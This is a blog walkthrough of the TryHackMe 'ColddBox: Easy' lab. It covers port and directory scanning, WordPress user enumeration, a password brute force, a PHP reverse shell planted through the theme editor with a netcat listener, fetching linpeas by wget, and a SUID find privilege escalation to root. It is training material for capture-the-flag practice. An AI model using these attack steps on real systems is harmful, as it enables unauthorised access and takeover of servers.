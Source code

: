 ColddBox: Easy WriteUp
======================

[July 15, 2021](https://jarrodrizor.com/colddbox-easy-writeup/ "10:14 pm") [Jarrod](https://jarrodrizor.com/author/jarrod/ "View all posts by Jarrod")

This is a WriteUp on how to complete the room [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy) on [TryHackMe](https://tryhackme.com).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/Banner_ColddBoxEasy_THM_.png)

Note* I used Kali Linux to complete this room. The IP address of my room was 10.10.170.248, so that will be the IP you see in the writeup. Replace 10.10.170.248 with the IP of your target box.

Let's begin this room by enumerating and gathering information about the server by doing an Nmap scan to see which ports are open.

Running the command:\
**sudo nmap -sV -T4 -O -oN nmap_scan 10.10.170.248** shows ports 4512 and 80 are open and running SSH 7.2 and Apache 2.4.18 on an Ubuntu Server. Note that SSH is running on a different port than normal.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/nmap_coldbox.png)

How this works:\
nmap -- The command used to execute Nmap.\
-sV -- This means Nmap will run a service/version detection scan.\
-O -- Does OS Detection and Fingerprinting.\
-T4 -- This is the timing option. T4 is a good mix of speed and accuracy for CTF's.\
-oN nmap_scan -- This means we want to save the output to a file named nmap_scan for future use.

Since Apache is running on port 80. Let us take a look and see if a website is being hosted on the server. Navigating to http://10.10.170.248 displays a landing page for a WordPress site.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/home_page_coldbox.png)

Looking around the website doesn't show anything interesting and nothing appears in the source code either. Let's do some more enumeration with Gobuster to see if we can find hidden files/directories.

Running the command:

**gobuster dir -u http://10.10.170.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_scan.txt** displays hidden directories.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_coldbox.png)

How this works:\
gobuster -- The command to execute Gobuster.\
dir -- (scan for directories).\
-u -- Target URL.\
-w -- the wordlist we are using to scan for hidden directories. In this case, I used the wordlist in Dirbuster called directory-list-2.3-small.txt.\
-o -- saves the output to a file. In this case, we are saving to gobuster_scan.txt.

Here are the results of the scan. The interesting directory that stands out is /hidden. Let's take a look.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_hidden_coldbox.png)

Navigating to http://10.10.170.248/hidden displays a message note intended for general public, but found with simple scanning techniques. This shows that they are running into password management issues. This could be our ticket in.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/hidden_page_coldbox.png)

Since we know this is a WordPress site. Let us bring in another tool to learn more about it. WPScan.

Running the command:

**wpscan --url http://10.10.170.248 --enumerate** will scan the site and give us more information about the WordPress CMS.\
(This displays a lot of information and I encourage you to run it to see all the results from the scan.)

How this works:\
wpscan -- The command to execute WPScan.\
--url -- Target URL.\
--enumerate -- Tells WPScan to scan the site to learn about plugins, themes, configs, users and other info.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic1_coldbox.png)

The results we should be interested in are the three users. They are philip, c0ldd, and hugo.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic3_coldbox.png)

We can use WPScan to see if we can find passwords for these users and log in with a password attack.

Running the command:

**wpscan --url http://10.10.170.248 --usernames philip,hugo,c0ldd --passwords /usr/share/wordlists/rockyou.txt** begins the brute force attack to see if we can find a password for these users.

How this works:\
wpscan -- The command to execute WPScan.\
--url -- Target URL.\
--usernames -- Users that we want to attack.\
--passwords -- List of passwords to use in the brute force attack. In this case we are using the famous rockyou.txt file.

After a few minutes, we have a hit on the user C0ldd!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_coldd_password_coldbox.png)

We can now try and log in as the user!

Let's navigate to http://10.10.170.248/wp-login should display the log in page. We'll use our new found credentials c0ldd:9876543210.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_login_coldbox-1.png)

We now have access to the dashboard. Here we can look around to get more information about our target. What's very interesting and also poor configuration on the targets end, is that the WordPress Editor is still enabled. This is located in the menu on the left hand side under Appearance.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_dashboard_coldbox.png)

With this feature, we can easily drop in PHP code to perform a reverse shell. (Anyone running a PHP site needs to disable this as it's very easy to abuse, as we shall soon see.)

Kali Linux has PHP Reverse Shell scripts located in /usr/share/webshells/php/. The file is named php-reverse-shell.php. Open it with a text editor and we need to update two values. The $ip and $port.

The $ip will be the IP Address of our attack machine. Using the TryHackMe VPN, let's look for tun0 and use that IP! We can find the IP Address with the command **ip addr** (which displays network interfaces).

The $port will be our listening port for the reverse shell. Let's use 4444 as it's out of the range of the known ports.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/reverse_shell_script_coldbox.png)

Before we copy and paste this script to the WordPress Editor let's get a listener setup with Netcat.

Now let's use Netcat and get into the system!

**Running the Command: nc -lvnp 4444** starts a Netcat listener.

What this does\
nc -- Executes Netcat.\
-l -- Listen for a request.\
-v -- Verbose output.\
-n -- Do not use DNS.\
-p -- What port to listen on.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/listener_coldbox.png)

Now that we have the script set up and the listener going. We need to copy and paste it to the editor to get the reverse shell to fire. We also need to pick a page to use that we can navigate to in the web browser. Let's do the 404.php page as it's easy to find and won't break anything in the template to break the site. Let's open it up in the editor and copy and paste!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/editor_404_coldbox.png)

Now we just need to navigate to a page that doesn't exist to trigger the 404.php page. Let's go to http://10.10.170.248/?p=3 and trigger it! Let's check back to our Netcat listener. We should have a session going and running as www-date.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/remote_login_coldbox-1.png)

We can navigate around the server, but we won't get far as the www-data user. This would be a good time to get Linpeas on the server and let that scan for areas of interest.

The way we can do this is to download the linpeas.sh file from the [GitHub Repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_github.png)

With linpeas.sh on our attack machine, we can start a Python Web Server and **wget** the file to our target server. In the same directory as the linpeas.sh file let us run the command **python3 -m http.server 8888**. This starts a Python Web Server and we can host files here. This will help us do a wget from the target box to pull in the linpeas.sh file.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/python_server_coldbox.png)

In the /tmp folder, run **wget (YOUR IP):8888/linpeas.sh** and that will pull in the linpeas.sh file from the Python Web Server. The last step is to make the file executable with the command **chmod +x linpeas.sh**.![](https://jarrodrizor.com/wp-content/uploads/2021/07/wget_linpeas.png)

Now let's fire linpeas with ./linpeas.sh.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_coldbox.png)

This is scanning the server for possible vulnerabilities and things we can exploit. It's a very handy enumeration tool for Linux systems.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_interesting_files_coldbox.png)

Linpeas has made a very important discovery. Turns out the find command has an exploitable permission in the form of a SUID. Let's reference [GTFOBins](https://gtfobins.github.io/) and lookup the [Find](https://gtfobins.github.io/gtfobins/find/#suid) command.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/find_coldbo_coldbox.png)

It looks simple enough. Using the find command, we can escalated our privileges to root!

Let's run the command **find . -exec /bin/sh -p \; -quit .\
**

Running whoami should show us that we are now root and can get the root.txt file and user.txt file in /root and /home/c0ldd/.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/becoming_root_coldbox.png)

That completes the room! Well done! If you found this helpful, please send me a [tweet](https://twitter.com/JarrodR87) and tell me what you thought! Feedback is always appreciated!

Jarrod
